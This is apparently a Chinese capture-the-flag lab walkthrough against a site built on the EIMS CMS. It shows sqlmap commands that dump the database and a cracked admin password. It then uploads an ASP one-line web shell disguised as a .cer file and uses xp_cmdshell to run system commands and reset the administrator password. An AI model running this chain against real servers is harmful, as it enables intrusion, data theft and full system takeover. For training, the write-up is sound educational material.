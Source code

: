 ### 一．SQL注入

1.发现网站是由eims搭建的，该cms存在sql注入漏洞

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_5500eef0.png)

2.利用sqlmap判断是否存在sql注入

python sqlmap.py -u http://192.168.100.100/Notice.asp?ItemID=18

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_50dfd7d9.png)



3.查看当前mssql都有那些数据库

python sqlmap.py -u http://192.168.100.100/Notice.asp?ItemID=18 --dbs

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_3c160db5.png)



4.查看Test_EIMS数据库的表

python sqlmap.py -u http://192.168.100.100/Notice.asp?ItemID=18 -D Test_EIMS --tables

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_1d6e67a2.png)

5.发现flag表，查看表内容

python sqlmap.py -u http://192.168.100.100/Notice.asp?ItemID=18 -D Test_EIMS -T eims_flag --dump

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_m4a2bb9a5.png)

6.查看账号密码的数据库表

对b2076528346216b3进行md5解密。

解密得密码为admin1234账号为root

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_2cf024fd.png)



7.在后台登录页面，查看网站源代码发现flag

http://192.168.100.100/admin/Login.asp

flag2{890b0c4958ef57e9264a9d2703ea7e8c}

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_m4e0531f6.png)

### 二．文件上传

1.使用账号密码登录后台

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_1cd9c228.png)

2.在后台系统信息-文件上传处上传后缀为.cer的asp一句话木马，一句话木马内容：<%eval request("caidao")%>

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_m3d1b5115.png)

3.直接用菜刀连接一句话木马

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_2d3f89e.png)

4.在网站根目录发现flag文件

flag3{23c5b149510105853f5e7ef9a6f06627}

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_m75e07064.png)

5.在数据库配置文件中找到数据库的账号密码

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_m3c0f0f04.png)

使用一句话木马连接mssql数据库

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_mf6a4f0f.png)

6.利用mssql数据库的xpcmdshell组件执行系统命令

EXEC master..xp_cmdshell 'whoami'

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_489144d6.png)

7.当前cmdshell的权限是system权限，所以直接修改administrator的密码为Simplexue123

EXEC master..xp_cmdshell 'net user administrator Simplexue123'

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_m2feaf42d.png)

### 三．远程登陆

1.直接远程桌面连接服务器

在桌面发现flag文件

flag5{47baf6d9d60f40c8b1dafa56c62fcd06}

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_m4e80713.png)

2.在c盘发现另外一个flag文件

flag4{e35a01e91e1833d266f95881ae83b4ca}

![img](http://192.168.33.1/uploads/20180330/permeate_11_html_73ed529d.png)